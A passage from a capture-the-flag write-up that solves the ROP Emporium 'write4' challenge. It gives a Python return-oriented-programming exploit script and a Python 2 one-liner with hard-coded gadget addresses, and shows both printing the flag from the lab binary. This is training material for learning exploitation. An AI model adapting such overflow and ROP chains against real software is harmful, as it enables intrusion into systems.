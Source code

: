 ```

# Build the ROP chain
payload = buffer
# POP the registers
payload += pop_gadget
# Provide the address of the .data section
payload += data_addr
# Provide the string to write into the .data section
payload += b"flag.txt"
# Move r15 into r14
payload += mov_gadget
# POP the RDI register
payload += pop_rdi
# Provide the address of the .data section
payload += data_addr
# Call the print_file() function
payload += print_file

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

Running the exploit script, I got the flag:

```
$ python3 exploit.py

Thank you!
ROPE{a_placeholder_32byte_flag!}
```

#### Python2 One-Line Exploit
`python2 -c 'data_addr = "\x28\x10\x60\x00\x00\x00\x00\x00"; print_file = "\x10\x05\x40\x00\x00\x00\x00\x00"; mov_gadget = "\x28\x06\x40\x00\x00\x00\x00\x00"; pop_gadget = "\x90\x06\x40\x00\x00\x00\x00\x00"; pop_rdi = "\x93\x06\x40\x00\x00\x00\x00\x00"; print "A"*40 + pop_gadget + data_addr + "flag.txt" + mov_gadget + pop_rdi + data_addr + print_file'`

Running the command, I got the flag:

```
$ python2 -c 'data_addr = "\x28\x10\x60\x00\x00\x00\x00\x00"; print_file = "\x10\x05\x40\x00\x00\x00\x00\x00"; mov_gadget = "\x28\x06\x40\x00\x00\x00\x00\x00"; pop_gadget = "\x90\x06\x40\x00\x00\x00\x00\x00"; pop_rdi = "\x93\x06\x40\x00\x00\x00\x00\x00"; print "A"*40 + pop_gadget + data_addr + "flag.txt" + mov_gadget + pop_rdi + data_addr + print_file' | ./write4

write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
